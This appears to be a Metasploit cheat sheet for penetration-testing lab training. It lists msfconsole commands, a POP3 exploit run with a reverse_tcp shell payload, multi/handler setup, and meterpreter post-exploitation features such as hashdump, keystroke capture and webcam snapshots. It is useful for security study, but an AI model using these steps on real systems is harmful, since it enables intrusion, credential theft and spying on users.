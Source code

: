 # Metasploit

## Msfconsole

### Exploring

Start: `msfconsole`

View auxiliary modules: `show auxiliary`

Use modules: `use auxiliary/scanner/snmp/snmp_enum`

View module options: `show options`

Set global session values: `setg RHOSTS 10.11.1.5`

### Database access

MSF logs findings and information about discovered hosts in a database

View discovered hosts: `hosts`

Use the db\_nmap wrapper to scan: `db_nmap 10.11.1.5`

Search for machines open ports: `services -p 443`

### Exploit modules

Search exploits: `search pop3`

Use exploit: `use exploit/windows/pop3/seattlelab_pass`

View options: `show options`

Set options: `set RHOST 10.11.1.5`

View payloads: `show payloads`

Select payload: `set payload windows/shell/reverse_tcp`

View payload options: `show options`

Once configured, run exploit: `exploit`

### **Multi Handler**

Used to receive callbacks from meterpreter payloads

`use exploit/multi/handler`

Set payload to match msfvenom command used to generate shell

Set IP address and port

`run`

### Meterpreter payloads – provide additional features and functionality

View system info: `sysinfo`

View UID: `getuid`

Search files: `search string`

Upload files: `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec` two  characters required to prevent shell escaping

Download files: `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`

Invoke a command shell: `shell`

### Post exploitation

`help` displays a list of available meterpreter post exploitation commands

Includes: download, upload, portfwd, route, keyscan\_start/stop, screenshot, record\_mic, webcam\_snap, getsystem \(priv esc\), hashdump

Useful tool for finding priv esc options `use post/multi/recon/local_exploit_suggester`



